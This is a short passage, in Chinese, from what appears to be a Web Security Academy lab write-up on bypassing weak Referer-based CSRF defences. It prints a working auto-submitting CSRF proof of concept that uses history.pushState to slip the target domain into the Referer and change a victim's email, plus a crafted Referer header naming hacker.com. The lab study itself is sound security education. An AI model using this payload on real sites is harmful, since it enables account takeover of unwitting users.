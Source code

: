 ![](img/a7c45b335f1880334d85d5b6ebdd5532.png)

我们的请求被接受了。

所以我们知道我们的应用程序检查域名是否包含在 referer 头中，而不是绝对 URL。

我们必须对我们的有效负载概念验证进行一些更改，以包含我们应用程序的有效域。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '**/?0a0b001d046155a9c07ad817000500af.web-security-academy.net**')</script>
    <form action="[https://0a0b001d046155a9c07ad817000500af.web-security-academy.net/my-account/change-email](https://0a0b001d046155a9c07ad817000500af.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

历史推送状态函数中的第三个参数是 URL，所以我们已经知道是否像这样提供我们的头

```
Referer:  http://hacker.com/[?0a0b001d046155a9c07ad817000500af.web-security-academy.net](https://exploit-0abe00f7041d5521c010d8d30126006c.web-security-academy.net/exploit?0a0b001d046155a9c07ad817000500af.web-security-academy.net)
```

它将被接受，因此我们可以提供应用程序的域是函数中的查询参数，该参数将被追加。
